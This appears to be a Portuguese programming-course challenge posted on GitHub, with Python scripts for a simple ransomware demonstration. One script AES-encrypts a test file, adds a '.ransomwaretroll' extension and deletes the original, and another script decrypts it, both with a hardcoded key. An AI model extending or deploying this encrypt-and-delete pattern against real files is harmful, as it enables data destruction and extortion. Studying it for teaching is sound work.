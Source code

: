 Desafio de Projeto

Encrypter.py

import os
import pyaes

def encrypt_file(file_path, key):
    """
    Criptografa um arquivo usando a criptografia AES no modo CTR.

    Args:
        file_path (str): O caminho para o arquivo a ser criptografado.
        key (bytes): A chave de criptografia (deve ter 16, 24 ou 32 bytes).
    """

    try:
        with open(file_path, "rb") as file:
            file_data = file.read()

        aes = pyaes.AESModeOfOperationCTR(key)
        crypto_data = aes.encrypt(file_data)

        encrypted_file_path = file_path + ".ransomwaretroll"
        with open(encrypted_file_path, "wb") as new_file:
            new_file.write(crypto_data)

        os.remove(file_path)  # Remove o arquivo original após a criptografia

        print(f"Arquivo criptografado e salvo como: {encrypted_file_path}")

    except FileNotFoundError:
        print(f"Erro: Arquivo não encontrado: {file_path}")
    except Exception as e:
        print(f"Ocorreu um erro durante a criptografia: {e}")

if __name__ == "__main__":
    file_name = "teste.txt"  # Nome do arquivo a ser criptografado
    key = b"testeransomwares"  # Chave de criptografia (16 bytes)

    encrypt_file(file_name, key)

Decrypter.py

import os
import pyaes

def decrypt_file(file_path, key):
    """
    Descriptografa um arquivo usando a criptografia AES no modo CTR.

    Args:
        file_path (str): O caminho para o arquivo a ser descriptografado.
        key (bytes): A chave de descriptografia (deve ter 16, 24 ou 32 bytes).
    """
    try:
        with open(file_path, "rb") as file:
            file_data = file.read()

        aes = pyaes.AESModeOfOperationCTR(key)
        decrypted_data = aes.decrypt(file_data)

        decrypted_file_path = file_path[:-16]  # Remove a extensão ".ransomwaretroll"
        with open(decrypted_file_path, "wb") as new_file:
            new_file.write(decrypted_data)

        os.remove(file_path)  # Remove o arquivo criptografado após a descriptografia

        print(f"Arquivo descriptografado e salvo como: {decrypted_file_path}")

    except FileNotFoundError:
        print(f"Erro: Arquivo não encontrado: {file_path}")
    except Exception as e:
        print(f"Ocorreu um erro durante a descriptografia: {e}")

if __name__ == "__main__":
    file_name = "teste.txt.ransomwaretroll"  # Nome do arquivo criptografado
    key = b"testeransomwares"  # Chave de descriptografia (16 bytes)

    decrypt_file(file_name, key)

Teste.txt

Esse arquivo está legível

